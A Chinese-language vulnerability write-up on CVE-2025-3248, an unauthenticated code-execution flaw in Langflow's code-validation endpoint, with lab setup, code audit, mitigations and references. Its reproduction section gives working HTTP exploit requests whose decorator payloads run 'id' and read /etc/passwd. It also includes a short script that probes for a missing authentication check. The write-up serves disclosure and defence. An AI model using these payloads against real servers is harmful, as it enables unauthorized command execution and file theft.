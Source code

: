 # 1、漏洞信息

​	LangFlow 是一款开源的低代码、可视化 AI 应用构建工具，基于 Python 开发，通过拖拽式界面让用户能够快速搭建复杂的 AI 工作流，支持多代理编排、Python 自定义以及多种预构建组件和模板。它还提供即时测试、API 发布等功能，适用于构建聊天机器人、文档分析和内容生成等应用，支持云部署或本地运行，适合快速验证创意和轻量级解决方案。



​	在1.3.0版本之前，Langflow 的`/api/v1/validate/code`接口原本用来校验用户提交的Python代码是否合法，其内部通过`ast`解析代码后，使用`exec`执行所有函数定义。然而，Python的装饰器和默认参数表达式也会在函数定义时被执行，攻击者可以通过精心构造的装饰器或默认参数，在未授权的情况下实现任意代码执行。



# 2、漏洞概述

| 漏洞名称  | Langflow 远程代码执行漏洞                      |
| --------- | ---------------------------------------------- |
| 漏洞等级  | 高危                                           |
| CVE编号   | CVE-2025-3248                                  |
| CNVD编号  | 暂无                                           |
| CNNVD编号 | 暂无                                           |
| 其他编号  | 暂无                                           |
| 披露时间  | 2025-04-06                                     |
| 分数      | 9.8                                            |
| CVSS      | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H   |
| 披露链接  | https://www.cve.org/CVERecord?id=CVE-2025-3248 |



# 3、影响范围

```
Langflow < 1.3.0
```



# 4、环境搭建

```
git clone --depth 1 https://github.com/vulhub/vulhub.git
cd vulhub/langflow/CVE-2025-3248/
docker compose up -d
```



# 5、代码审计

漏洞的成因在于 Langflow 的 `/api/v1/validate/code` 接口存在设计缺陷。具体来说：

- **未进行身份验证**：`post_validate_code` 方法未对调用该接口的用户身份进行校验，这意味着任何未经身份验证的攻击者都可以通过 HTTP 请求访问该接口。

- **直接执行用户输入代码**：该方法直接调用了 `langflow.utils.validate.validate_code` 函数来运行用户传入的代码。由于没有对用户输入进行适当的过滤或限制，攻击者可以利用这一缺陷，通过构造恶意代码注入到接口中，从而在服务器上执行任意代码。

- **代码执行环境未隔离**：`validate_code` 函数在执行用户代码时，没有将执行环境与服务器的主环境隔离。这使得攻击者可以利用该漏洞执行系统命令、访问敏感文件或篡改服务器配置等操作。



https://github.com/langflow-ai/langflow/blob/1.2.0/src/backend/base/langflow/api/v1/validate.py

![image-20250506150127387](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202505061502876.png)



# 6、漏洞复现

直接向`/api/v1/validate/code`接口发送包含恶意装饰器的Python函数定义，即可来实现远程命令执行

```
POST /api/v1/validate/code HTTP/1.1
Host: 192.168.91.135:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n pass"}
```

![image-20250506154731844](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202505061547004.png)



```
POST /api/v1/validate/code HTTP/1.1
Host: 192.168.91.135:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['cat','/etc/passwd']))\")\ndef foo():\n pass"}
```

![image-20250506154812010](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202505061548125.png)



# 7、解决方案

## 7.1、临时缓解方案

如果暂时无法升级，可以采取以下措施降低风险：

- **添加身份验证**：确保只有经过身份验证的用户才能调用 `/api/v1/validate/code` 接口。
- **限制代码执行范围**：对用户输入的代码进行严格的过滤和限制，避免执行危险操作。
- **隔离代码执行环境**：使用沙箱环境（如 Python 的 `exec` 函数配合 `restricted_eval` 或其他安全机制）来执行用户代码，防止恶意代码影响服务器的主环境。



## 7.2、升级修复方案

**版本更新**：官方已发布升级补丁。



# 8、POC

```python
import requests  
  
code = "cmd"  
response = requests.post("http://127.0.0.1:7860/api/v1/validate/code",  
json={"code": code},  
headers={"Authorization": "Bearer no"})  
  
if response.status_code == 401:  
print("身份验证存在,不存在漏洞")  
else:  
print("身份验证不存在，可能存在漏洞")  
print(response.text)
```



# 9、参考链接

- https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/
- https://github.com/langflow-ai/langflow/releases/tag/1.3.0
- https://github.com/langflow-ai/langflow/pull/6911

